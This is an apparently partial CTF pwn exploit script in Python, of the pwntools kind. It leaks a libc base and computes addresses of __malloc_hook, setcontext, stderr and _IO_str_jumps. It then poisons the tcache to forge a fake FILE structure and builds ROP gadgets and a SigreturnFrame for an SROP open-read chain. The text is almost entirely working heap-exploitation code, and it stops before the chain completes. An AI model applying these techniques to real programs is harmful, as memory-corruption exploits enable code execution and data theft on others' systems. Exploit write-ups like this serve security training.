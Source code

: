 ```python
ru('Content: ')
libcbase=leak_address()-0x1e4ca0


for i in range(24):
	add(0,0x78)
add(0,0x58)



print('[+]libcbase: '+hex(libcbase))
malloc_hook=libcbase+libc.sym['__malloc_hook']
print('[+]malloc_hook: '+hex(malloc_hook))
setcontext=libcbase+libc.sym['setcontext']
print('[+]setcontext: '+hex(setcontext))
stderr=libcbase+libc.sym['_IO_2_1_stderr_']
print('[+]_IO_2_1_stderr_: '+hex(stderr))
fake_io=heap+0x1d90+0x10
print('[+]fake_io: '+hex(fake_io))
srop=heap+0x7a0-0x60
print('[+]SROP: '+hex(srop))
jumps=libcbase+0x1e6620
print('[+]_IO_str_jumps: '+hex(jumps))
stack=libcbase+0x1e7000
print('[+]fake_stack: '+hex(stack))

pop_rdi=libcbase+0x26542
pop_rsi=libcbase+0x26f9e
pop_rdx=libcbase+0x12bda6 
pop_rax=libcbase+0x47cf8
syscall=libcbase+0x10cf7f
o=libcbase+libc.sym['open']
r=libcbase+libc.sym['read']
w=libcbase+libc.sym['puts']


add(0,0x18)
delete(0)
edit(0,p64(stderr+0x60))
add(0,0x18)
add(0,0x18)
edit(0,p64(0)+p64(fake_io))


add(0,0x48)
edit(0,p64(0)*5+p64(srop))
add(0,0x48)
add(0,0x48)
edit(0,p64(0)*7+p64(jumps))


frame=SigreturnFrame()
frame.rsp=stack
frame.rdx=0x200
frame.rsi=stack
frame.rdi=0
frame.rip=r
add(0,0x68)
pd=bytes(frame)
edit(0,pd[0x60:0x60+0x50])



```